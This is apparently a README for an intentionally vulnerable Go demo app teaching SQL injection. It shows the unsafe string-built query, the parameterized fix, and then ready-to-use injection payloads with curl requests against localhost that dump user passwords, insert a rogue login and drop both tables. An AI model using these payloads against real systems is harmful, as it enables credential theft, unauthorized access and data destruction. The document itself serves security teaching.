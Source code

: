 # What is SQL injection?

SQL injection is a vulnerability in a relational database client that allows a malicious actor to run unauthorized SQL commands against the database. This can be a big problem because it gives someone the ability to destroy important data, retrieve sensitive information, and create a backdoor into protected systems.

# How to identify a SQL injection vulnerability

Any time a SQL query is executed with variables and the variables are not properly escaped, this leaves an application open to SQL injection. For example:

```go
// String concatenation has the same vulnerability:
// query := "SELECT * FROM messages WHERE id = "  + params.ByName("id")
query := fmt.Sprintf("SELECT * FROM messages WHERE id = %s", params.ByName("id"))

if rows, err := db.Query(query); err != nil {
		return err
}
```

The code above selects rows from a table, but notice that the query string is being created directly via a string template, and there is nothing preventing someone from altering the SQL command. For example, instead of an ID, someone could pass in the string `1; DROP table messages; --`, which ends the initial select command, adds a new command, and comments out the remaining code, thereby destroying the data inside of the `messages` table.

# How to guard against SQL injection

Most programming languages have packages/libraries that make it easy to interact with the database of your choice. Each of these libraries will have methods that allow the application to execute parameterized queries, which will ensure that any variable that's being used to create a query string cannot be treated as a SQL command:

```go
// This query syntax is specific to a PostgreSQL database, where $1 is a placeholder for a parameter.
// If you are using a different database, please refer to its documentation for the correct syntax.
rows, err := db.QueryContext(ctx, "SELECT * FROM messages WHERE id = $1", params.ByName("id"))
if err != nil {
    return err
}
```

This method would ensure that if a user passes in `1; DROP table messages; --` as the value for the ID, the database would search for an ID matching "1; DROP table messages; --", rather than running the command against the database.


# How to hack into the database

## Listing the sensitive data in the users table

Notice that the code for `getMessages` in `main.go` doesn't give explicit access to the users table; however, it does give us access to user IDs, which can be used to retrieve the usernames and passwords for each user. The injected string would be something like this:

```sql
1 OR 1=1 UNION ALL SELECT id, 0 AS user_id, username || ' - ' || password FROM users --
```

Put together with the internal SQL query, the resulting command will look like this:

```sql
SELECT * FROM messages
WHERE
	id = 1 OR 1=1
UNION ALL
SELECT
	id,
	0 AS user_id,
	username || ' - ' || password
FROM users --
```

To break down each step of the query:
- `SELECT * FROM messages WHERE id = 1 or 1=1` logically translates to selecting all entries from the messages table.
- `UNION ALL SELECT id, 0 as user_id, username || ' - ' || password FROM users --` selects all entries from the users table and formats the row structure to match the messages table (i.e. integer and text), combines them with the message rows, and comments out the remaining code.

Because the entrypoint for the data is in the URL, the SQL statement will need to be [percent-encoded](https://developer.mozilla.org/en-US/docs/Glossary/Percent-encoding). Below is the curl request that will retrieve the sensitive data from the users table:

```sh
curl \
"http://localhost:3000/messages/1%20OR%201%3D1%20UNION%20ALL%20SELECT%20id%2C%200%20AS%20user_id%2C%20username%20%7C%7C%20'%20-%20'%20%7C%7C%20password%20FROM%20users%20--"
```

## Inserting a login for a malicious user into the users table

Just like the example above, the `sendMessage` method in the `main.go` file only gives explicit access to the messages table; however, we can still insert data into the users tables:

```sql
', 1); INSERT INTO users (username, password) VALUES ('maliciousUser', 'p@$$w0rd'); --
```

Put together with the internal SQL statement, the resulting command will look like this:

```sql
INSERT INTO messages (message, user_id)
VALUES ('', 1);
INSERT INTO users (username, password)
VALUES ('maliciousUser', 'p@$$w0rd'); --
```

To break down each step of the statement:
- `INSERT INTO messages (message, user_id) VALUES ('', 1);` inserts a blank message into the messages table.
- `INSERT INTO users (username, password) VALUES ('maliciousUser', 'p@$$w0rd'); --` inserts a new username and password into the users table and comments out the remaining code.

Because the entrypoint for the data is in the body of the request, the SQL statement will need to be sent as a string in the body of the request. Below is the curl request that will insert a malicious user into the users table:

```sh
curl \
--request POST \
--data-binary "', 1); INSERT INTO users (username, password) VALUES ('maliciousUser', 'p@$$w0rd'); --" \
http://localhost:3000/message/1
```

## Destroying the table data in the database

Destroying the table data will be the exact same process as inserting a malicious user; however, the injected statement will be different:

```sql
', 1); DROP TABLE messages; DROP TABLE users; --
```

Put together with the internal SQL statement, the resulting command will look like this:

```sql
INSERT INTO messages (message, user_id)
VALUES ('', 1);
DROP TABLE messages; DROP TABLE users; --
```

The `DROP TABLE` statements will destroy the tables, resulting in the loss of all message and user data. Below is the curl request that will destroy the table data in the database:

```sh
curl \
--request POST \
--data-binary "', 1); DROP TABLE messages; DROP TABLE users; --" \
http://localhost:3000/message/1
```